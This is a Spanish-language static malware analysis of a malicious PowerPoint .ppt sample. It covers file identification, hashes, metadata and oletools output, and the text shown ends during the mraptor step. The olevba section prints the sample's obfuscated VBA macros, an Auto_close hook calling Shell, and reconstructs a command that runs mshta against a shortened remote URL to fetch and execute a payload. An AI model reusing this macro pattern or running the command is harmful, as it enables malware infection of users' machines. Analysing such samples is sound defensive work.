- [**0. Flujo general**](#0-flujo-general)
- [**1. Información general de la muestra**](#1-información-general-de-la-muestra)
  - [**1.1 Identificación del tipo de PowerPoint**](#11-identificación-del-tipo-de-powerpoint)
  - [**1.2 Hashes y trazabilidad**](#12-hashes-y-trazabilidad)
- [**2. Consultas Externas**](#2-consultas-externas)
- [**3. Análisis estático inicial**](#3-análisis-estático-inicial)
  - [**3.1 Metadatos con ExifTool**](#31-metadatos-con-exiftool)
  - [**3.2 Análisis inicial de `.ppt`/`.pps` con oletools**](#32-análisis-inicial-de-pptpps-con-oletools)
    - [**A) Inspeccionamos con la herramienta `oleid`**](#a-inspeccionamos-con-la-herramienta-oleid)
    - [**B) Inspeccionamos con la herramienta `olevba`**](#b-inspeccionamos-con-la-herramienta-olevba)
    - [**C) Inspeccionamos con la herramienta `mraptor`**](#c-inspeccionamos-con-la-herramienta-mraptor)
- [**4. Detección de ofuscacion**](#4-detección-de-ofuscacion)
  - [**4.1 Búsqueda inicial de indicios de ofuscación**](#41-búsqueda-inicial-de-indicios-de-ofuscación)
    - [**A) Uso de strings para extraer cadenas ASCII**](#a-uso-de-strings-para-extraer-cadenas-ascii)
    - [**B) Búsqueda de cadenas en formato UTF-16LE**](#b-búsqueda-de-cadenas-en-formato-utf-16le)
  - [**4.2 Ofuscacion en macros VBA**](#42-ofuscacion-en-macros-vba)
  - [**4.3 Comprobacion de ofuscacion avanzada**](#43-comprobacion-de-ofuscacion-avanzada)
    - [**A) floss archivo**](#a-floss-archivo)
    - [**B) binwalk archivo**](#b-binwalk-archivo)
    - [**C) Se buscan codificaciones**](#c-se-buscan-codificaciones)
  - [**4.4 Conclusión del análisis de ofuscación**](#44-conclusión-del-análisis-de-ofuscación)
- [**5. Extracción de objetos y artefactos**](#5-extracción-de-objetos-y-artefactos)
  - [**5.1 Extracción en .ppt/.pps OLE**](#51-extracción-en-pptpps-ole)
  - [**5.2 Extraemos las macros**](#52-extraemos-las-macros)
  - [**5.3 Validacion de artefactos extraidos**](#53-validacion-de-artefactos-extraidos)
- [**6. Análisis de artefactos extraidos**](#6-análisis-de-artefactos-extraidos)
- [**7. Correlación de cadenas relevantes**](#7-correlación-de-cadenas-relevantes)
- [**8. Conclusiones del análisis estático**](#8-conclusiones-del-análisis-estático)
- [**9. Análisis Dinámico**](#9-análisis-dinámico)
  - [**9.1 Preparación de la máquina virtual**](#91-preparación-de-la-máquina-virtual)
    - [**9.1.1 Process Monitor**](#911-process-monitor)
    - [**9.1.2 Process Explorer**](#912-process-explorer)
    - [**9.1.3 Regshot**](#913-regshot)
    - [**9.1.4 Wireshark**](#914-wireshark)
    - [**9.1.5 Microsoft Office vulnerable**](#915-microsoft-office-vulnerable)
    - [**9.1.6 Modificación de hosts**](#916-modificación-de-hosts)
  - [**9.2 Ejecución inicial de la muestra**](#92-ejecución-inicial-de-la-muestra)
- [**10. Conclusiones**](#10-conclusiones)


# **0. Flujo general**
```
identificacion -> tipo de PowerPoint -> estructura -> ofuscacion -> extraccion -> analisis de
artefactos -> correlacion -> interpretacion tecnica -> emulacion/dinamico si procede
```


# **1. Información general de la muestra**

La muestra analizada corresponde a un documento de Microsoft PowerPoint con extensión `.ppt`. Este tipo de fichero pertenece al formato binario clásico de Microsoft Office y, por tanto, debe tratarse como un contenedor `OLE/CFBF` (Object Linking and Embedding / Compound File Binary Format).

Esto resulta relevante porque el método de análisis depende directamente del tipo de PowerPoint identificado. Un fichero `.ppt` antiguo no se estructura como un archivo `ZIP`, sino como un documento compuesto que contiene distintos flujos internos, propiedades, posibles objetos embebidos y macros en formato OLE. En cambio, los documentos modernos con extensiones `.pptx` o `.pptm` se basan en el estándar `OOXML`, por lo que se analizan como paquetes `ZIP` con rutas internas `XML`, relaciones, recursos multimedia y, en el caso de `.pptm`, posibles proyectos `VBA`.

En este caso, al tratarse de un documento `.ppt`, el análisis debe centrarse en la estructura `OLE`, los metadatos del documento, los streams internos y la posible presencia de código `VBA` u objetos incrustados.


## **1.1 Identificación del tipo de PowerPoint**
Antes de iniciar la extracción de contenido o el análisis de artefactos internos, debemos identificar correctamente el tipo de contenedor utilizado por el documento. Esta fase condiciona el resto del procedimiento, ya que no se analizan de la misma forma los documentos PowerPoint antiguos en formato binario que los documentos modernos basados en `OOXML`.

Los ficheros `.ppt` clásicos utilizan normalmente una estructura `OLE/CFBF` (Object Linking and Embedding / Compound File Binary Format), mientras que los formatos más recientes, como `.pptx` o `.pptm`, se basan en paquetes `ZIP/OOXML`. En consecuencia, las herramientas, rutas internas, tipos de artefactos y técnicas de extracción varían según el formato identificado.

Para identificar el tipo real del fichero utilizamos la herramienta `file`, que permite determinar el formato del archivo a partir de su cabecera y estructura interna, independientemente de la extensión indicada.
```
└─$ file 5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6.ppt                                   
5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6.ppt: Composite Document File V2 Document, Little Endian, Os: Windows, Version 10.0, Code page: 1252, Author: HP, Last Saved By: HP, Revision Number: 15, Name of Creating Application: Microsoft Office PowerPoint, Total Editing Time: 47:28, Create Time/Date: Wed Jun 10 18:30:02 2020, Last Saved Time/Date: Wed Jun 10 19:17:30 2020, Number of Words: 0
```

La salida confirma que el fichero es un `Composite Document File V2 Document`, es decir, un documento compuesto `OLE/CFBF`. Por tanto, **no se trata de un `PowerPoint` moderno basado en `OOXML`, sino de un fichero `.ppt` binario clásico.**

Además de identificar el formato, la herramienta muestra varios metadatos relevantes:
- Sistema operativo asociado: Windows.
- Versión indicada: Windows 10.0.
- Página de códigos: 1252, correspondiente habitualmente a codificación occidental.
- Autor: HP.
- Último usuario que guardó el documento: HP.
- Aplicación de creación: Microsoft Office PowerPoint.
- Número de revisión: 15.
- Tiempo total de edición: 47 minutos y 28 segundos.
- Fecha de creación: 10 de junio de 2020 a las 18:30:02.
- Fecha del último guardado: 10 de junio de 2020 a las 19:17:30.

Estos datos permiten establecer una primera caracterización de la muestra. El documento fue creado y modificado con Microsoft Office PowerPoint en un entorno Windows, y conserva metadatos internos propios de un fichero `OLE`. A partir de esta identificación, el análisis debe continuar con herramientas específicas para documentos `OLE`, como `oleid`, `oledump.py`, `olevba` u otras utilidades de la `suite oletools`, con el fin de comprobar la existencia de macros, objetos incrustados, streams sospechosos o indicadores asociados a comportamiento malicioso.


**Para confirmar la identificación del contenedor, revisamos también los primeros bytes del fichero mediante `xxd`:**
```
└─$ xxd -l 16 5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6.ppt 
00000000: d0cf 11e0 a1b1 1ae1 0000 0000 0000 0000  ................
```
La cabecera hexadecimal `D0 CF 11 E0 A1 B1 1A E1` corresponde a la firma característica de los documentos `OLE/CFBF`. Esta firma permite confirmar que el archivo no es un paquete `ZIP/OOXML`, sino un documento compuesto binario de Microsoft Office.

Esta clasificación determina el flujo de análisis que debe seguirse a continuación. Al tratarse de un contenedor `OLE/CFBF`, el análisis se centrará en la inspección de streams internos, propiedades del documento, posibles macros VBA, objetos incrustados y otros artefactos propios de este formato. Para ello resultan adecuadas herramientas como `oleid`, `oledump.py`, `olevba` y `oleobj`, que permiten examinar la estructura interna del documento y detectar elementos potencialmente sospechosos.

<mark>**En conclusión**, la muestra queda clasificada como un fichero PowerPoint clásico en formato `.ppt`, basado en estructura `OLE/CFBF`, por lo que el procedimiento de análisis debe orientarse a herramientas y técnicas específicas para documentos `OLE`.</mark>


## **1.2 Hashes y trazabilidad**
Para garantizar la correcta identificación de la muestra durante todo el proceso de análisis, se calcularon distintos hashes criptográficos del fichero. Estos valores permiten referenciar el archivo de forma única, comprobar su integridad y compararlo con fuentes externas como informes de inteligencia, repositorios de malware, sandboxes o plataformas de análisis como VirusTotal, Hybrid Analysis o MalwareBazaar.
```
└─$ md5sum 5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6.ppt 
70f581be44790401f2e4945a777c565a  5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6.ppt
                                                                                                                                
└─$ sha1sum 5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6.ppt 
86393505d9723f2e3264128a13803baab7292fba  5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6.ppt
                                                                                                                                
└─$ sha256sum 5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6.ppt 
5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6  5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6.ppt
```

**Los hashes obtenidos para la muestra son los siguientes:**
| Algoritmo | 	Valor |
| -- | -- |
| MD5 | 70f581be44790401f2e4945a777c565a |
| SHA1 | 86393505d9723f2e3264128a13803baab7292fba |
| SHA256 | 5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6 |


El valor `SHA256` coincide con el nombre del fichero analizado, lo que indica que la muestra ya estaba etiquetada utilizando su identificador criptográfico principal. Por tanto, estos valores deben conservarse como indicadores básicos de la muestra y utilizarse durante el resto del análisis para asegurar que todas las observaciones corresponden exactamente al mismo fichero.


# **2. Consultas Externas**
Una vez identificada la muestra y calculados sus hashes, se han realizado consultas en plataformas externas de análisis y reputación con el objetivo de contrastar los resultados obtenidos localmente. Este tipo de consulta permite comprobar si la muestra ya ha sido analizada previamente, conocer detecciones antivirus, observar comportamiento dinámico y obtener indicadores adicionales asociados al fichero.

- **VirusTotal:**
  - https://www.virustotal.com/gui/file/5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6
  - VirusTotal permite obtener una primera visión de la reputación del fichero a partir de múltiples motores antivirus. Esta consulta es útil para identificar si la muestra ya se encuentra catalogada como maliciosa, sospechosa o limpia por distintos proveedores de seguridad.
  - Además, la plataforma puede proporcionar información complementaria como nombres de detección, relaciones con otros artefactos, metadatos extraídos del documento, comportamiento observado y posibles indicadores de compromiso asociados. Estos datos resultan relevantes para contrastar el análisis local y contextualizar la muestra dentro de campañas o familias de malware conocidas.
    
- **Joe Sandbox:**
  - 
  - Joe Sandbox resulta especialmente útil para observar el comportamiento de la muestra en un entorno controlado. A diferencia de una consulta puramente reputacional, este tipo de sandbox permite identificar acciones realizadas durante la ejecución o apertura del documento, como creación de procesos, conexiones de red, escritura de ficheros, modificaciones del registro, carga de objetos embebidos o ejecución de código asociado a macros.
  - https://www.joesandbox.com/analysis/799333/0/html
  - https://www.joesandbox.com/analysis/799333/0/pdf
  - La consulta en Joe Sandbox permite, por tanto, complementar el análisis estático con información dinámica. En el contexto de un documento PowerPoint potencialmente malicioso, estos resultados ayudan a determinar si el fichero intenta ejecutar contenido activo, descargar payloads adicionales, explotar alguna funcionalidad de Office o interactuar con el sistema de forma anómala.


# **3. Análisis estático inicial**
El análisis estático inicial tiene como objetivo obtener una primera visión técnica de la muestra sin ejecutarla ni abrirla en Microsoft PowerPoint. Esta fase permite extraer información básica del fichero, validar su formato real, revisar metadatos internos y detectar posibles anomalías que orienten las siguientes etapas del análisis.

En documentos ofimáticos potencialmente maliciosos, esta fase es especialmente importante porque permite identificar indicios preliminares de manipulación, uso de macros, objetos incrustados, rutas internas, metadatos inconsistentes o diferencias entre la extensión visible y el formato real del archivo.

En este caso, al tratarse de un fichero `.ppt` clásico, el análisis estático se centrará en su naturaleza `OLE/CFBF`, en las propiedades internas del documento y en los posibles streams u objetos embebidos que puedan existir dentro del contenedor.

## **3.1 Metadatos con ExifTool**
Para extraer los metadatos principales de la muestra se utilizó la herramienta `exiftool`. Esta utilidad permite obtener información tanto del sistema de archivos como de las propiedades internas del documento, incluyendo tipo de fichero, tamaño, fechas, autor, aplicación generadora y otros campos relevantes.
```
└─$ exiftool 5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6.ppt 
ExifTool Version Number         : 13.50
File Name                       : 5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6.ppt
Directory                       : .
File Size                       : 73 kB
File Modification Date/Time     : 1980:01:01 00:00:00+01:00
File Access Date/Time           : 2026:05:28 08:51:23+02:00
File Inode Change Date/Time     : 2026:05:22 13:58:58+02:00
File Permissions                : -rw-rw-r--
File Type                       : PPT
File Type Extension             : ppt
MIME Type                       : application/vnd.ms-powerpoint
Title                           : 
Author                          : HP
Last Modified By                : HP
Revision Number                 : 15
Software                        : Microsoft Office PowerPoint
Total Edit Time                 : 47.5 minutes
Create Date                     : 2020:06:10 17:30:03
Modify Date                     : 2020:06:10 18:17:31
Words                           : 0
Thumbnail Clip                  : (Binary data 43336 bytes, use -b option to extract)
Code Page                       : Windows Latin 1 (Western European)
Presentation Target             : Widescreen
Company                         : 
Bytes                           : 0
Paragraphs                      : 0
Slides                          : 0
Notes                           : 0
Hidden Slides                   : 0
MM Clips                        : 0
App Version                     : 16.0000
Scale Crop                      : No
Links Up To Date                : No
Shared Doc                      : No
Hyperlinks Changed              : No
Title Of Parts                  : Arial, Calibri, Calibri Light, Office Theme
Heading Pairs                   : Fonts Used, 3, Theme, 1, Slide Titles, 0
```
**La salida confirma que la extensión del fichero coincide con el formato identificado por la herramienta.** ExifTool clasifica la muestra como un fichero de tipo `PPT`, con extensión `.ppt` y tipo `MIME application/vnd.ms-powerpoint`. Esto descarta, en esta fase, que se trate de un paquete `ZIP/OOXML` renombrado o de otro tipo de archivo camuflado bajo una extensión de PowerPoint.

**El tamaño del archivo es reducido, aproximadamente `73 kB`.**

Los metadatos internos indican que el documento fue creado con `Microsoft Office PowerPoint`, concretamente con una versión de aplicación `16.0000`, asociada a versiones modernas de `Microsoft Office`. El autor y el último usuario que modificó el documento figuran como `HP`, y el número de revisión es `15`. También se observa un tiempo total de edición de `47,5 minutos`, lo que sugiere que el documento fue guardado y modificado varias veces antes de la obtención de la muestra.

En cuanto a las **fechas**, existen dos grupos diferenciados:
- Por un lado, las fechas internas del documento indican una creación el `10 de junio de 2020`.
- Una última modificación el mismo día.
- Por otro lado, los metadatos del sistema de archivos muestran una fecha de modificación externa fijada en `1980:01:01 00:00:00+01:00`, que resulta anómala y puede deberse a procesos de empaquetado, extracción, transferencia, manipulación del timestamp o conservación artificial de fechas. Esta discrepancia debe registrarse, aunque por sí sola no demuestra comportamiento malicioso.

También destaca la presencia de un **campo `Thumbnail Clip` con datos binarios** de aproximadamente `43.336 bytes`. Este elemento corresponde a una **miniatura interna del documento.** Para extraer este elemento usamos la opción `-b` de ExifTool, para revisar visualmente el contenido preliminar del archivo sin abrirlo en PowerPoint.

Los campos relacionados con el contenido de la presentación muestran valores llamativos: `Slides: 0`, `Notes: 0`, `Hidden Slides: 0`, `Words: 0`, `Paragraphs: 0` y `MM Clips: 0`. Estos resultados sugieren que ExifTool no identifica contenido convencional de presentación, lo cual puede ser relevante si el fichero contiene únicamente objetos internos, streams `OLE`, elementos embebidos o contenido no interpretado como diapositivas normales.

<mark>**En conclusión**, ExifTool confirma que la muestra corresponde a un documento PowerPoint clásico en formato .ppt. Los metadatos son coherentes con un fichero generado mediante Microsoft Office PowerPoint, aunque se observan elementos que requieren análisis adicional, especialmente la ausencia de diapositivas detectadas, la existencia de una miniatura binaria y la discrepancia entre las fechas internas del documento y la fecha de modificación del sistema de archivos.</mark>


## **3.2 Análisis inicial de `.ppt`/`.pps` con oletools**

### **A) Inspeccionamos con la herramienta `oleid`**  
Una vez confirmado que la muestra corresponde a un documento PowerPoint clásico en formato `OLE/CFBF`, vamos a realizar una primera inspección con la herramienta `oleid`, incluida dentro de la `suite oletools`. Esta utilidad permite obtener una visión rápida del estado del documento, identificando características relevantes como el tipo de contenedor, la aplicación declarada, la presencia de cifrado, macros VBA, macros XLM, relaciones externas y otros indicadores potencialmente sospechosos:
```
└─$ oleid 5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6.ppt 
oleid 0.60.1 - http://decalage.info/oletools
THIS IS WORK IN PROGRESS - Check updates regularly!
Please report any issue at https://github.com/decalage2/oletools/issues

Filename: 5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6.ppt
WARNING  For now, VBA stomping cannot be detected for files in memory
--------------------+--------------------+----------+--------------------------
Indicator           |Value               |Risk      |Description               
--------------------+--------------------+----------+--------------------------
File format         |Generic OLE file /  |info      |Unrecognized OLE file.    
                    |Compound File       |          |Root CLSID: 817246F0-720A-
                    |(unknown format)    |          |11CF-8718-00AA0060263B -  
                    |                    |          |None                      
--------------------+--------------------+----------+--------------------------
Container format    |OLE                 |info      |Container type            
--------------------+--------------------+----------+--------------------------
Application name    |Microsoft Office    |info      |Application name declared 
                    |PowerPoint          |          |in properties             
--------------------+--------------------+----------+--------------------------
Properties code page|1252: ANSI Latin 1; |info      |Code page used for        
                    |Western European    |          |properties                
                    |(Windows)           |          |                          
--------------------+--------------------+----------+--------------------------
Author              |HP                  |info      |Author declared in        
                    |                    |          |properties                
--------------------+--------------------+----------+--------------------------
Encrypted           |False               |none      |The file is not encrypted 
--------------------+--------------------+----------+--------------------------
VBA Macros          |Yes, suspicious     |HIGH      |This file contains VBA    
                    |                    |          |macros. Suspicious        
                    |                    |          |keywords were found. Use  
                    |                    |          |olevba and mraptor for    
                    |                    |          |more info.                
--------------------+--------------------+----------+--------------------------
XLM Macros          |No                  |none      |This file does not contain
                    |                    |          |Excel 4/XLM macros.       
--------------------+--------------------+----------+--------------------------
External            |0                   |none      |External relationships    
Relationships       |                    |          |such as remote templates, 
                    |                    |          |remote OLE objects, etc   
--------------------+--------------------+----------+--------------------------
```

El resultado confirma que el documento utiliza un contenedor `OLE`, coherente con el formato `.ppt` identificado previamente. Aunque `oleid` clasifica el formato como `Generic OLE file / Compound File`, la propia herramienta reconoce que la aplicación declarada en las propiedades es Microsoft Office PowerPoint, por lo que el archivo se mantiene dentro del flujo de análisis previsto para documentos PowerPoint binarios.

Uno de los aspectos más relevantes de la salida es que **el fichero no se encuentra cifrado (Encrypted: False)**. Esto facilita el análisis estático posterior, ya que los streams internos y el posible código VBA pueden ser inspeccionados sin necesidad de descifrado.

El indicador más importante es la **detección de macros VBA sospechosas.** La herramienta marca el campo `VBA Macros` con el valor `Yes, suspicious` y un nivel de riesgo `HIGH`. Esto indica que el documento contiene macros `VBA` y que, además, se han localizado palabras clave o patrones considerados sospechosos. Este resultado no permite determinar por sí solo el comportamiento exacto de la muestra, pero sí confirma que el documento contiene contenido activo que debe ser analizado con mayor profundidad.

Por otro lado, `oleid` no identifica **macros `XLM` (XLM Macros: No)**, lo cual es esperable al tratarse de un documento PowerPoint y no de una hoja de cálculo Excel. También se observa que el **campo `External Relationships` aparece con valor `0`**, por lo que no se detectan relaciones externas evidentes, como plantillas remotas, objetos `OLE` remotos u otros vínculos externos registrados en este nivel de análisis.

Los metadatos básicos obtenidos por `oleid` coinciden con los resultados observados en fases anteriores: el autor declarado es HP, la página de códigos es 1252: ANSI Latin 1; Western European (Windows) y la aplicación asociada es Microsoft Office PowerPoint.

<mark>**En conclusión**, la revisión preliminar con oleid confirma que la muestra es un documento `OLE` no cifrado y que contiene macros `VBA` marcadas como sospechosas, lo que eleva el nivel de riesgo inicial del fichero. A partir de este resultado, el análisis debe continuar con herramientas específicas como `olevba`, `oledump.py` y `mraptor`, con el fin de extraer el código `VBA`, revisar los streams internos y determinar qué acciones intenta ejecutar el documento.</mark>


-----

### **B) Inspeccionamos con la herramienta `olevba`**
Ahora utilizamos la herramienta `olevba` para extraer y analizar el código `VBA` contenido en la muestra. Esta herramienta permite recuperar los módulos `VBA` almacenados dentro del contenedor `OLE`, identificar funciones de autoejecución, localizar llamadas peligrosas y detectar patrones habituales en documentos ofimáticos maliciosos.
```
└─$ olevba 5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6.ppt 
olevba 0.60.2 on Python 3.13.12 - http://decalage.info/python/oletools
===============================================================================
FILE: 5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6.ppt
Type: OLE
-------------------------------------------------------------------------------
VBA MACRO gorcia1.bas 
in file: 5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6.ppt - OLE stream: 'VBA/gorcia1'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Function opopo()

opopo = "m"

End Function
-------------------------------------------------------------------------------
VBA MACRO gorcia2.bas 
in file: 5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6.ppt - OLE stream: 'VBA/gorcia2'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Function klijk()

Shell (kokoko)
End Function
-------------------------------------------------------------------------------
VBA MACRO gorcia3.bas 
in file: 5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6.ppt - OLE stream: 'VBA/gorcia3'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Function kokoko()

kokoko = opopo + mksmdas + jdsakdaw + "ta http://%20%20@j.mp/asdaxasdasxasdasdsddodkasodkaos"
End Function
-------------------------------------------------------------------------------
VBA MACRO gorcia4.bas 
in file: 5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6.ppt - OLE stream: 'VBA/gorcia4'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Function mksmdas()

mksmdas = "s"

End Function
-------------------------------------------------------------------------------
VBA MACRO gorcia5.bas 
in file: 5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6.ppt - OLE stream: 'VBA/gorcia5'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Function jdsakdaw()

jdsakdaw = "h"

End Function

-------------------------------------------------------------------------------
VBA MACRO Morgan.bas 
in file: 5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6.ppt - OLE stream: 'VBA/Morgan'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Sub Auto_close()
klijk
End Sub
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |Auto_close          |Runs when the Excel Workbook is closed       |
|Suspicious|Shell               |May run an executable file or a system       |
|          |                    |command                                      |
+----------+--------------------+---------------------------------------------+
``` 
La salida confirma la existencia de **varios módulos `VBA` dentro del documento. En concreto, se identifican los módulos:**
- gorcia1,
- gorcia2,
- gorcia3,
- gorcia4,
- gorcia5 y
- Morgan.


**El módulo Morgan contiene el procedimiento `Auto_close`, que actúa como punto de entrada automático:**
```
Sub Auto_close()
klijk
End Sub
```
La presencia de una rutina de autoejecución en este módulo es relevante porque permite que el código `VBA` se ejecute de forma automática bajo determinadas condiciones asociadas al ciclo de vida del documento, en este caso **al cerrarse el archivo.** Aunque la descripción mostrada por `olevba` hace referencia a Excel de forma genérica, el indicador importante es la <mark>existencia de un evento automático dentro de un documento Office.</mark>

**La función `Auto_close` llama a `klijk`, definida en el módulo `gorcia2`:**
```
Function klijk()

Shell (kokoko)
End Function
```
Este fragmento es especialmente crítico, ya que <mark>utiliza la función `Shell`, que permite ejecutar comandos del sistema operativo desde `VBA`.</mark> En documentos ofimáticos maliciosos, `Shell` se emplea habitualmente para lanzar intérpretes, ejecutar binarios del sistema, iniciar descargas o cargar payloads externos.

**La función Shell no recibe una cadena fija directamente, sino el resultado de la función `kokoko`. Esta función construye dinámicamente el comando a ejecutar:**
```
Function kokoko()

kokoko = opopo + mksmdas + jdsakdaw + "ta http://%20%20@j.mp/asdaxasdasxasdasdsddodkasodkaos" End Function
```

**El comando se encuentra parcialmente ofuscado mediante la concatenación de varias funciones auxiliares:**
```
Function opopo()
opopo = "m"
End Function

Function mksmdas()
mksmdas = "s"
End Function

Function jdsakdaw()
jdsakdaw = "h"
End Function
```

**Al reconstruir las cadenas, se obtiene el siguiente comando:**
```
mshta http://%20%20@j.mp/asdaxasdasxasdasdsddodkasodkaos
```

La cadena resultante indica que <mark>la macro intenta ejecutar `mshta`</mark>, una utilidad legítima de Windows utilizada para interpretar aplicaciones `HTML (.hta)`. En campañas de malware, `mshta.exe` se utiliza con frecuencia como técnica <mark>`Living off the Land`</mark> para ejecutar contenido remoto sin necesidad de incluir un ejecutable malicioso directamente dentro del documento.

El **uso de una URL acortada mediante el dominio `j.mp`** también es un indicador de riesgo. Los acortadores de URL pueden emplearse para ocultar el destino real, dificultar el análisis estático y permitir cambios en la infraestructura de entrega del payload. Además, la **inclusión de `%20%20@` dentro de la URL puede interpretarse como una técnica de ofuscación o manipulación visual de la dirección.**

**La cadena de ejecución identificada es la siguiente:**
```
Auto_close → klijk → Shell(kokoko) → mshta http://%20%20@j.mp/asdaxasdasxasdasdsddodkasodkaos
```

Por tanto, el comportamiento previsto de la macro sería ejecutar `mshta.exe` y solicitar contenido remoto desde una URL acortada. Esto constituye un indicador claro de comportamiento malicioso o, como mínimo, altamente sospechoso.

olevba también clasifica automáticamente dos elementos relevantes:
| Tipo	| Indicador	Interpretación |
| -- | -- |
| AutoExec | Auto_close	Rutina de ejecución automática asociada al cierre del documento. |
| Suspicious | Shell	Posible ejecución de comandos o binarios del sistema operativo. |


<mark>**En conclusión**, el análisis con olevba confirma que la muestra contiene macros `VBA` funcionales y sospechosas. El código no parece orientado a mostrar contenido legítimo de presentación, sino a construir dinámicamente un comando para ejecutar `mshta` contra una URL remota. La combinación de autoejecución, llamada a Shell, uso de `mshta.exe`, concatenación de cadenas y URL acortada eleva significativamente el nivel de riesgo de la muestra y refuerza la hipótesis de que se trata de un documento malicioso diseñado para iniciar una cadena de infección.</mark>


------

### **C) Inspeccionamos con la herramienta `mraptor`**
Esta utilidad está orientada a la detección rápida de macros potencialmente maliciosas mediante la identificación de patrones de comportamiento habituales en documentos Office usados como vectores de infección.

A diferencia de `olevba`, que permite extraer y revisar el código `VBA` en detalle, `mraptor` proporciona una clasificación resumida basada en indicadores como ejecución automática, escritura de ficheros y ejecución de comandos:
```
└─$ mraptor 5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6.ppt 
MacroRaptor 0.56.2 - http://decalage.info/python/oletools
This is work in progress, please report issues at https://github.com/decalage2/oletools/issues
----------+-----+----+--------------------------------------------------------
Result    |Flags|Type|File                                                    
----------+-----+----+--------------------------------------------------------
SUSPICIOUS|A-X  |OLE:|5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceb
          |     |    |a7ea32b6.ppt                                            

Flags: A=AutoExec, W=Write, X=Execute
Exit code: 20 - SUSPICIOUS
```
El resultado obtenido clasifica la muestra como <mark>**SUSPICIOUS**, lo que confirma que las macros incluidas en el documento presentan patrones asociados a comportamiento malicioso o potencialmente peligroso.</mark>

Las marcas identificadas por mraptor son las siguientes:
| Flag | Significado | Interpretación en la muestra |
| -- | -- | -- |
| A | AutoExec | Existe una rutina de ejecución automática. |
| W | Write | No aparece marcada en esta muestra. |
